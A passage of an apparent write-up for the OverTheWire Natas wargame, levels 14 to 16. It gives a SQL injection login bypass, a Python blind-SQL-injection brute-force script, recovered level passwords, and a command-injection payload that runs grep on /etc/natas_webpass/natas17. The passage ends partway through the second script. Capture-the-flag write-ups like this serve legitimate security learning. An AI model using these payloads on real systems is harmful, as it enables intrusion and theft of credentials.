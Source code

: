 Obviously we'll need to do some SQLi to exploit this level.

After running some test, I have found that `"` is unchecked. Easy then. We put
the awesome `test"OR "1"="1` in both input and we logon.

> Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

## Level 15

As we logon we see an input box and a button, they say that we can check if an
user exist.

For this level we'll use a python script and a tecnique called *bruteforce*.

Here's the script:
```python
import requests

auth_header = {'Authorization':'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='}
alphanumerics = map(chr, range(65, 91) + range(97,123) + range(48, 58))

def make_url(substr):
        return "http://natas15.natas.labs.overthewire.org/index.php?debug=true&username=natas16%22%20and%20BINARY%20SUBSTRING%28password,1,%22" + str(len(substr)) + "%22%29=%22" + substr + "%22%20and%20%22a%22=%22a"

def is_success(url):
    resp = requests.get(make_url(url), headers=auth_header)
    return "This user exists." in resp.text

password = ""

while len(password) < 32:
    for char in alphanumerics:
        print password+char
        if is_success(password+char):
            password += char
            break

    print "Password =", password
```

Let the script run and at the end you'll get the password:

> Password = WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

## Level 16

For this level we'll use the same tools as the one before: python and
bruteforce.

But this time we'll bruteforce the parameter we give to the `grep`, checking for
`hello` as answer.

Here's the script:
```python
import requests

auth_header = {'Authorization':'Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA=='}
alphanumerics = map(chr, range(65, 91) + range(97,123) + range(48, 58))

def make_url(string):
    return "http://natas16.natas.labs.overthewire.org/index.php?needle=hello$(grep -n " + string + " /etc/natas_webpass/natas17)"
def is_correct(string):
    print make_url(string)
    resp = requests.get(make_url(string), headers=auth_header).text
```